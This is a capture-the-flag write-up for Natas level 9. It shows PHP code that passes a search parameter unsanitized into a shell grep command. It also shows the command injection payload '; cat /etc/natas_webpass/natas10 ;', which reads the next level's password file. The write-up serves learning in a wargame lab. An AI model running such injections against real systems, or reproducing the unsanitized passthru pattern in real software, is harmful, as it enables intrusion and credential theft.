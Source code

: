 # Level 9
This level deals with command injection.

## Quest
We are present with a search box. I type `hello` in searchbox and get the following output.

![Level 9 Image](./images/Level9.png)

The backend PHP code is below, Lets comment it
```php
<?
$key = "";

if(array_key_exists("needle", $_REQUEST)) {   // Checks if "needle" key is present in GET request
    $key = $_REQUEST["needle"];               // If its there, assign it to var $key
} 

if($key != "") {                              // If key is not empty
    passthru("grep -i $key dictionary.txt");  // use it to run a shell command (Bad Practise!)
}
?>
```

<br/>

## Solution
From the above code, we can see that user input is passed to OS command without any sanitization, this code should be vulnerable to command injection.<br/><br/>
Our goal is to get password for the next level, i.e. access  `/etc/natas_webpass/natas10` .

<span id="green">Our payload  --></span> `; cat /etc/natas_webpass/natas10 ;` <br/>
_Terminate the `grep` command with `;` and view the password file and then terminate `cat` command with `;`_

<br/><br/>
As evident from below screenshot, this gets us password for next Level.

![Level 9 solution](./images/Level9_solution.png)


<br/>

### How the payload works
```shell
# If user input is "hello", following command gets executed
grep -i hello dictionary.txt          # Searches dictionary.txt for word hello and displays output

# Now if we put our payload, command becomes
grep -i ; cat /etc/natas_webpass/natas10 ; dictionary.txt   #  ; terminates command
```
_`;` terminates `grep` command, runs our `cat` command and terminates it again._

<br/>

[<< Back](https://grey-fish.github.io/Natas/index.html)
